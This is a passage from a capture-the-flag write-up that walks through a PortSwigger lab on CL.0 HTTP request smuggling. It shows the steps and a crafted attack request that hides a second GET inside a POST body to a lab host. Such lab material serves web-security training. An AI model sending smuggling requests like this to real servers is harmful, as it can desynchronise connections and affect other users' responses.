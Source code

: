 To filter these out, try sending two requests down the same connection to see if you can use the body of the first request to affect the response to the second one, just like you would when [probing for CL.0 request smuggling](https://portswigger.net/web-security/request-smuggling/browser/cl-0#testing-for-cl-0-vulnerabilities).

**To do CL.0 request smuggling, we need to:**

- **Re-enable the "Update Content-Length" option:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-21/images/Pasted%20image%2020230226163214.png)

- **Add a new body to smuggle a non-existence page:** (Attack request)

```http
POST /resources/labheader/js/labHeader.js HTTP/1.1
Host: 0a4c002e03e58448c00fdcfe00e90072.h1-web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

GET /404pls HTTP/1.1
X-Foo: x
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-21/images/Pasted%20image%2020230226163346.png)
